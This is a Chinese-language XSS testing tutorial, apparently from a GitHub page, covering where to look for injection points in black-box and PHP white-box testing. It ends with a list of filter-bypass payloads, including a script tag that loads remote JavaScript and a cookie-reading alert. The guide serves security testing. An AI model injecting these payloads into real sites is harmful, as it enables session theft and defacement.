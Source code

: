 ## 挖掘

不论是任何类型的XSS，要满足输入和输出两个条件。

### 注意事项

黑盒测试：尽可能找到一切用户可控并且能够输出在页面代码中的地方，比如URL本身、URL的每一个参数、表单、搜索框等。常见业务场景如下：

+ 重灾区：评论区、留言区、个人信息、订单信息等等
+ 针对型：网页即时通讯、站内信、私信、意见反馈等
+ 存在风险：搜索框、当前目录、图片属性等

白盒测试：关于XSS的代码审计主要就是从接收参数的地方和一些关键词入手：大多数程序会对接收参数封装在公共函数中统一调用，我们就需要审计这些公共函数看有没有过滤，能否绕过等。可搜索类似`echo`这样的输出语句，跟踪输出的变量是从哪里来的，是否能控制。如果从数据库中取的，是否能控制存到数据库中的数据，存到数据库之前有没有进行过滤等等。PHP中常见的接收参数的方式有`$_GET`、`$_POST`、`$_REQUEST`等等，可以搜索所有接收参数的地方，然后对接收到的数据进行跟踪，看看有没有输出到页面中，然后看输出到页面中的数据是否进行了过滤和html编码等处理。



### 手动测试

#### 基本测试

```html
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT> #是一个常规的XSS测试代码，建议先尝试
```

```html
”;!–“<XSS>=&{()}  #是一个很不错的紧凑型的XSS检测代码
```







```
当用户在一个应用程序编辑自定义信息的时候,在常规Javascript代码中是这样,例如: <SCRIPT>var a=”$ENV{QUERY_STRING}”;</SCRIPT>.如果你想插入你自己的Javascript代码时候,会被服务转义掉其中某些引号,这时你需要通过转义被转义字符来绕过它.从而使最终输入代码类似于<SCRIPT>var a=”\\”;alert(‘XSS’);//”;</SCRIPT>.最终双引号被服务器转义,并且触发了XSS payload:


\”;alert(‘XSS’);//
‘;alert(String.fromCharCode(88,83,83))//’;alert(String.fromCharCode(88,83,83))//”;
alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//–

></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

‘”>><marquee><img src=x onerror=confirm(1)></marquee>”></plaintext\></|\><plaintext/onmouseover=prompt(1)>
<script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’–>”></script>

<script>alert(document.cookie)</script>”>

<img/id=”confirm&lpar;1)”/alt=”/”src=”/”onerror=eval(id)>'”>

<img src=”http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg”>
```
